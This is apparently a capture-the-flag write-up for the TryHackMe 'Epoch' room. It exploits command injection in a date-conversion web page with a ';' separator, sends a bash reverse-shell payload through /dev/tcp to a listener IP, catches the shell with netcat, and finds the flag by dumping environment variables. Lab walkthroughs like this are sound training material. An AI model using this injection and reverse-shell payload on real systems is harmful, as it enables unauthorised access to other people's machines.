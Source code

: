 ```yaml
---
title: THM - Epoch
tags: [thm, command injection]
---
```


<div style="text-align:center;">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/1f93210b470f836c38121fc3f65c0807.png" alt="Challenge logo" style="height:150px;">
</div>

We don't need to perform a port scan since the room description already tells us to visit the web page.

We can read from the room description that the application converts UNIX dates to the corrispondent timestamp through a Linux program. Let's try to terminate the conversion program using a `;` character and try to execute another standard Linux command like `id`.

![](../assets/img/epoch-command-injection-poc.PNG)

We have command injection. Let's get a bash reverse shell and get access to the machine. The payload we'll use is

```
something; bash -c 'sh -i >& /dev/tcp/10.10.206.154/4242 0>&1'
```

Make sure to start a netcat listener before sending it.

```
$ nc -lvnp 4242

Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.151.232 55338 received!
sh: 0: can't access tty; job control turned off
$ 

```

We can see that we are inside a docker container.

```
$ ls -la /

total 118256
drwxr-xr-x   1 root root      4096 Mar  2  2022 .
drwxr-xr-x   1 root root      4096 Mar  2  2022 ..
-rwxr-xr-x   1 root root         0 Mar  2  2022 .dockerenv
...
```

Using the standard Linux privilege escalation cheatsheet, we print the enviroment variables

```
$ printenv

HOSTNAME=e7c1352e71ec
SHLVL=1
HOME=/home/challenge
_=/
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/home/challenge
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d[redacted]}
```